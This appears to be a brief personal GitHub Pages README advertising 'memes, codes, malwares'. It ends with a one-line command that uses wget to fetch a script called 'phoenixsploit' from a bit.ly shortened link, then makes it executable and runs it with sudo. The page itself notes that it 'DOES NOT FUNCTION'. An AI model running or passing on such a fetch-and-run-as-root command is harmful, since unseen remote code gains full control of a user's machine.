 # phoenixthrush.github.io
Just memes, codes, malwares, an archive and lots more lol!

Follow me if u wanna get a&nbsp;<a href="https://instagram.com/phoenixthrush">:cookie: &nbsp;</a>lmao

<br>

NEW UPDATE!
DOES NOT FUNCTION

wget https://bit.ly/phoenixsploit phoenix.sh && sudo chmod +x phoenix.sh && sudo ./phoenix.sh
